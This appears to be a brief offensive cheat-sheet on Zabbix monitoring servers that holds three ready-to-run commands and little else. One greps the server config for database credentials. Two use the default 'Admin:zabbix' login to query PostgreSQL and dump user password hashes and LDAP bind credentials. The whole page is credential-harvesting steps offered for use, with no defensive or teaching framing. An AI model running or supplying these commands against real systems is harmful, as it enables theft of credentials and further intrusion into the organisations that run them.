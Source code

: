 # Zabbix

- [https://telegra.ph/zametki-pro-zabbix-02-27](https://telegra.ph/zametki-pro-zabbix-02-27)

Grab DB creds:

```
$ cat /etc/zabbix/zabbix_server.conf | grep '^DB'
```

Grab local creds:

```
$ psql postgresql://Admin:zabbix@localhost/zabbix -c 'select userid, alias, name, surname, passwd, attempt_ip from users'
```

Grab LDAP creds:

```
$ psql postgresql://Admin:zabbix@localhost/zabbix -c 'select ldap_host, ldap_port, ldap_base_dn, ldap_bind_dn, ldap_bind_password from config'
```
